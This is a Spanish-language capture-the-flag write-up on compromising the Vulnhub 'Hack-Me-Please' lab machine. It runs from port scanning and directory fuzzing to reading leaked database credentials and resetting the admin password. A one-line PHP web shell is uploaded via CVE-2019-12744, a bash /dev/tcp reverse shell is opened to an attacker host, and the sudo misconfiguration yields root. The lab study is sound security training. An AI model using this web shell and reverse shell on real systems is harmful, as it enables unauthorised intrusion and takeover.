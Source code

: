 ```yaml
---
title: Vulnhub - Hack-Me-Please
author: cotes
date: 2023-10-11 17:51:00 +0800
categories: [Writeup, Vulnhub, Easy]
tags: [Linux, 'Information Leakage', 'RCE (CVE-2019–12744)']
math: true
mermaid: true
image:
  path: /assets/images/Vulnhub/Easy/Hack-Me-Please/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hack-Me-Please Machine Logo
---
```


Máquina Linux de nivel **Easy** de Vulnhub.

Técnicas usadas: **Information Leakage, RCE (CVE-2019–12744)**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/Vulnhub/Easy/Hack-Me-Please/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos

* **`nmap -p22,80 -sCV <IP> -oN versiones`**

    ![](/assets/images/Vulnhub/Easy/Hack-Me-Please/02-versions.png)

c. La fuga de información se encuentra en el fichero `/js/main.js`

```js
//make sure this js file is same as installed app on our server endpoint: /seeddms51x/seeddms-5.1.22/
```

* Ahora, realizaremos un fuzzing de directorios en `http://<IP Hack-Me-Please/seeddms51x/FUZZ`

    ```bash
    ❯ dirsearch -u http://192.168.100.40/seeddms51x/
    <SNIP>
    [09:13:15] 301 -  326B  - /seeddms51x/conf  ->  http://192.168.100.40/seeddms51x/conf/  
    ```

* Realizaremos fuzzing en el directorio **conf** 
  
    ```bash
    ❯ dirsearch -u http://192.168.100.40/seeddms51x/conf/
    <SNIP>
    [09:14:03] 200 -   12KB - /seeddms51x/conf/settings.xml 
    ```

* En el directorio **setttings.xml** tenemos credenciales de acceso a la base de datos

    ```xml
    <database dbDriver="mysql" dbHostname="localhost" dbDatabase="seeddms" dbUser="seeddms" dbPass="seeddms" doNotCheckVersion="false"> </database>
    ```

d. Una vez nos autentiquemos en la base de datos, veremos los usuarios disponible en el sistema. Adicional, encontramos credenciales del usuario 'saket'

```bash
❯ mysql -h 192.168.100.40 -u seeddms -p

MySQL [(none)]> use seeddms;

MySQL [seeddms]> select id,login,pwd,fullName from tblUsers;
+----+-------+----------------------------------+---------------+
| id | login | pwd                              | fullName      |
+----+-------+----------------------------------+---------------+
|  1 | admin | 4d186321c1a7f0f354b297e8914ab240 | Administrator |
|  2 | guest | NULL                             | Guest User    |
+----+-------+----------------------------------+---------------+
2 rows in set (0.001 sec)


MySQL [seeddms]> select * from users;
+-------------+---------------------+--------------------+-----------------+
| Employee_id | Employee_first_name | Employee_last_name | Employee_passwd |
+-------------+---------------------+--------------------+-----------------+
|           1 | saket               | saurav             | Saket@#$1337    |
+-------------+---------------------+--------------------+-----------------+
1 row in set (0.001 sec)
```

* Ahora, cambiaremos la contraseña del usuario 'admin'. Para eso debemos reemplazarla por una **hash MD5**

    ```bash
    ❯ echo -n 'testpassword' | md5sum
    e16b2ab8d12314bf4efbd6203906ea6c
    ------------------------------------------------
    MySQL [seeddms]> UPDATE tblUsers SET pwd="e16b2ab8d12314bf4efbd6203906ea6c" WHERE id=1;
    ```

e. Ahora, ya podemos acceder a **SeedDMS**. Para ejecutar comando subiremos un fichero **.php** | [**CVE-2019–12744**](https://bryanleong98.medium.com/cve-2019-12744-remote-command-execution-through-unvalidated-file-upload-in-seeddms-versions-5-1-1-5c32d90fda28)

* backup.php

    ```php
    <?php system($_GET["cmd"]); ?>
    ```

    ![](/assets/images/Vulnhub/Easy/Hack-Me-Please/03-file.png)


* Para acceder al fichero, iremos a la ruta `/seeddms51x/data/1048576/"document_id"/"version".php`

    ![](/assets/images/Vulnhub/Easy/Hack-Me-Please/04-ver.png)\

* Nos entablaremos un reverse shell: `http://<IP Hack-Me-Please/seeddms51x/data/1048576/6/2.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/[IP Host]/[Port]%200%3E%261%22`

    ```bash
    www-data@ubuntu:/var/www/html/seeddms51x/data/1048576/6$
    ```

### Escalada de Privilegios 💹

a. Le damos un tratamiento a la bash para obtener una shell totalmente interactiva `STTY`

```bash
<seeddms51x/data/1048576/6$ script /dev/null -c bash     
Script started, file is /dev/null
www-data@ubuntu:/var/www/html/seeddms51x/data/1048576/6$ ^Z
zsh: suspended  nc -lvnp 443
❯ stty raw -echo;fg
[1]  + continued  nc -lvnp 443
                              reset xterm
    [ENTER]
www-data@ubuntu:/var/www/html/seeddms51x/data/1048576/6$ export TERM=xterm-256color
www-data@ubuntu:/var/www/html/seeddms51x/data/1048576/6$ source /etc/skel/.bashrc
```

b. El usuario **saket** existe y como obtuvimos su contraseña anteriormente nos convertimos en él. Después, enumeramos nuestros privilegios a nivel de sudoers

```bash
www-data@ubuntu:/var/www/html/seeddms51x/data/1048576/6$ su saket
Password: Saket@#$1337

saket@ubuntu:/var/www/html/seeddms51x/data/1048576/6$ sudo -l

User saket may run the following commands on ubuntu:
    (ALL : ALL) ALL
```

* Podemos ejecutar cualquier comando como cualquier usuario, por lo que nos convertimos en root

    ```bash
    saket@ubuntu:/var/www/html/seeddms51x/data/1048576/6$ sudo su
    root@ubuntu:/var/www/html/seeddms51x/data/1048576/6#
    ```